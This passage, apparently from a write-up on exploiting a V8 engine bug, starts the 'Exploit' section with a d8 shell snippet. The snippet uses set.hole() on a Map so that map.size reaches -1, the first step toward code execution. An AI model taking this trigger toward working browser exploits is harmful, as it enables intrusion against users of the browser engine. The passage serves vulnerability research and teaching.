Don't be shy and start the exploitation!

![map_size_rce](images/map_size_rce.jpg)


## 💣 Exploit

### 🔓 Trigger the vulnerability

First of all, let's see if we can reproduce the same behavior as the report (I removed all the `undefined` results for readibility..):

```js
d8> var set = new Set();
d8> var map = new Map();
d8> map.set(1, 1)
d8> map.set(set.hole(), 1);
d8> map.delete(set.hole());
d8> map.delete(set.hole());
d8> map.delete(1);
d8> print(map.size)
-1
d8> 
```
